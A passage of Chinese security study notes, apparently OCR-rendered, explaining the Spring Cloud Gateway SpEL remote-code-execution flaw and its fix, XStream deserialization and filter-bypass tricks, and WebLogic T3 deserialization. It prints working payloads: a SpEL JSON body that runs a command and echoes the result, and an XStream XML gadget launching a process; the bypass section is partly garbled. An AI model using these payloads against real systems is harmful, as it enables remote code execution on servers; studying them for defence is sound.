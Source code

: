 

### 最新的Spring Cloud Gateway SPEL的RCE漏洞

本质还是`SPEL`表达式，本来这是一个需要修改配置文件导致的鸡肋`RCE`漏洞

但因为`Gateway`提供了`Actuator`相关的`API`可以动态地注册`Filter`，而在注册的过程中可以设置`SPEL`表达式

实战利用程度可能不高，目标未必开着`Actuator`接口，就算开放也不一定可以正常访问注册`Filter`的接口



### 最新的Spring Cloud Gateway SPEL的RCE漏洞可以回显吗



```json
{
    "name": "AddResponseHeader",
    "args": {
        "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}",
        "name": "cmd123"
    }
}
```

### 最新的Spring Cloud Gateway SPEL的RCE漏洞如何修复的

参考很多`SPEL`漏洞的修复手段，默认情况使用`StandardContext`可以执行`Runtime.getRuntime().exec()`这样的危险方法

修复是重写一个`GatewayContext`用来执行`SPEL`，这个`context`的效果是只能执行有限的操作
## xstream
### xstream反序列化原理
XStream是Java类库，可以将对象序列化为XML格式或将XML反序列化为对象
XStream反序列化漏洞的存在是因为XStream支持一个名为DynamicProxyConverter的转换器，该
转换器可以将XML中dynamic-proxy标签内容转换成动态代理类对象，而当程序调用了dynamic- proxy标签内的interface标签指向的接口类声明的方法时，就会通过动态代理机制代理访问dynamic- proxy标签内handler标签指定的类方法；利用这个机制，攻击者可以构造恶意的XML内容，即
dynamic-proxy标签内的handler标签指向如EventHandler类这种可实现任意函数反射调用的恶意
类、interface标签指向目标程序必然会调用的接口类方法；最后当攻击者从外部输入该恶意XML内 容后即可触发反序列化漏洞、达到任意代码执行的目的。
<sorted-set> <string>foo</string> <dynamic-proxy> <interface>java.lang.Comparable</interface> <handler class="java.beans.EventHandler"> <target class="java.lang.ProcessBuilder"> <command> <string>calc.exe</string> </command> </target> <action>start</action> </handler></dynamic-proxy> </sorted-set>
### xstream反序列化绕过
标签属性绕过
<org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor serialization="custom">
custom 进行html编码
<org.springframework.aop.support.AbstractBeanFactoryPointcutAdvisor serialization="custom">
标签内容绕过
1.将标签内容html编码
ldap://xxxxx
ldap://xxxxx
2.注释绕过
ldap://xxxxx

##  weblogic
###  T3协议反序列化
#### CVE-2015-4852
T3协议是Weblogic对于JAVARMI通信的实现,在传输过程中会进行序列化和反序列化操作.T3协议攻击的原理就是替换或者增加在T3数据中原本的反序列化对象,因为服务端在获取的序列化对象后肯定会进行反序列化,从而触发反序列化漏洞.
